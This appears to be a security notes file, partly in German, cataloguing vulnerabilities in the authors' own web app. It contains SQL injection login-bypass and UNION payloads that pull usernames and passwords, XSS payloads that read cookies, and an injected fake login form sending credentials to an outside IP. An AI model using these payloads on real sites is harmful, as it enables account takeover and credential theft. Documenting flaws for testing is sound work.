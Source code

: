 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

## Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata.

# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>
```

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
```html
<h3>Please login to proceed</h3>
<form action=http://192.165.159.122>Username:<br>
<input type="username" name="username"></br>Password:<br>
<input type="password" name="password"></br><br>
<input type="submit" value="Login"></br>
```
